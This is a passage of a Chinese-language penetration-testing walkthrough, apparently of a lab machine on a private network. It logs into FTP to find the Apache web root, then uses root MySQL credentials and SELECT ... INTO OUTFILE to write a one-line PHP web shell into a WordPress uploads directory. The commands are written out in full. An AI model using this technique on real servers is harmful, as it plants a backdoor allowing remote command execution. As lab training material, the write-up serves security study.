 ### mysql向文件中写入一句话

使用用户名elly与密码ylle登入ftp服务，查看apache配置文件apache2/sites-available/default-ssl.conf

```plain
ftp:192.168.179.149
cd apache2
cd sites-available
get default-ssl.conf
exit
查看该文件并寻找网站根目录
cat default-ssl.conf | grep DocumentRoot
```

[![](assets/1699929525-6304b96e3cb46d0bb5395e739731c8df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140410-4c2f1b36-8121-1.png)

使用用户名root与密码pplbkac登录mysql,并向/blogblog/wp-content/uploads写入一句话木马文件exce.php

```plain
mysql -h 192.168.179.149 -uroot -pplbkac
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/exec.php";
```

[![](assets/1699929525-528b03de318f68a3b8b2bdfb2d7a0a65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140429-5734da66-8121-1.png)

此时upload目录下多了一个exec.php文件

[![](assets/1699929525-cf65dbdf9bb56d9ab880caa5928185dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140445-6117b7ce-8121-1.png)
